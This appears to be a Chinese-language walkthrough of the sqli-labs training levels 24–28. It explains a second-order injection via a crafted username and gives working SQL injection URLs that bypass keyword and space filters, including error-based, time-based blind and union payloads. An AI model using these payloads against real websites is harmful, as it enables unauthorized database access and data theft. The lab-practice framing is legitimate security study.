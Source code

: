 那么只要注册一个名为admin'#的账号，即可修改admin的密码。虽然注册时被转义，但是取出来时转义符会自动去掉。

## Less-25

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327140712.png)

替换了and和or为空，那么尝试用符号&和|，或者双写绕过。

http://192.168.1.104:1235/sqli-labs/Less-25/?id=-1' union select 1,2,3--+

## Less-26

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327151006.png)

在上一关的基础上过滤了空格。

熟知的空格绕过方式有：/**/ （） + ` \t

http://192.168.1.104:1235/sqli-labs/Less-26/?id=-1'anandd(updatexml(1,concat(0x7e,database(),0x7e),1))anandd'1'='1

## Less-26a

盲注

http://192.168.1.104:1235/sqli-labs/Less-26a/?id=1')anandd(if(ascii(substr(database(),1,1))>1,sleep(1),null))anandd('1

## Less-27

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327170420.png)

过滤了union和select，可以用大小写绕过

http://192.168.1.104:1235/sqli-labs/Less-27/?id=1'and(if(ascii(substr((selEct(database())),1,1))>1,sleep(1),null))and'1

## Less-27a

不知道为什么这里可以用双引号闭合：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327172910.png)

http://192.168.1.104:1235/sqli-labs/Less-27a/?id=1" and(if(ascii(substr((selEct(database())),1,1))>1,sleep(1),null))and"1

## Less-28

http://192.168.1.119:1235/sqli-labs/Less-28/?id=0')union%0aunion%0aselectselect%0a1,database(),3%0aand('1

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240328131918.png)匹配的是union+空格+select，所以只要union%0aunion%0aselectselect即可绕过。
